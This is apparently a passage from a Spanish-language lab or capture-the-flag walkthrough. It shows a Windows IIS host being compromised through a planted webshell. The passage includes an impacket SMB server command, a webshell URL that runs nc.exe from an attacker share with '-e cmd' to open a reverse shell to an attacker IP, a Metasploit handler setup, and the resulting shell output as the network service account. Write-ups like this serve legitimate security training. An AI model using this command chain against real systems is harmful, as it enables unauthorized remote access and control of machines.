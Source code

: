 Una vez copiado nuestro binario de `netcat` vamos abrirnos el servidor de `SMB`:

```shell
impacket-smbserver -smb2support kali .
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Ahora desde la pagina de `webshell.aspx` ejecutaremos lo siguiente:

```
URL = http://<IP>/webshell.aspx?cmd=\\<IP_ATTACKER>\kali\nc.exe -e cmd <IP_ATTACKER> <PORT>
```

Con esto lo que haremos sera conectarnos a nuestro servidor de `SMB` para ejecutar el binario `nc.exe` y seguidamente estamos estableciendo una conexion a dicho `puerto` e `IP`.

Antes de enviarlo nos tendremos que poner a la escucha de la siguiente forma:

```shell
msfconsole -q
use multi/handler
set LPORT <PORT>
set LHOST <IP_ATTACKER>
run
```

Ahora si enviamos ese `payload` en el `webshell.aspx` y volvemos a donde tenemos la escucha veremos lo siguiente:

```
[*] Started reverse TCP handler on 192.168.1.146:7777 
[*] Command shell session 1 opened (192.168.1.146:7777 -> 192.168.1.153:49168) at 2025-03-25 07:20:25 -0400


Shell Banner:
Microsoft Windows [Versi_n 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  Reservados todos los derechos.

c:\windows\system32\inetsrv>
-----
          

c:\windows\system32\inetsrv>whoami
whoami
nt authority\servicio de red
```
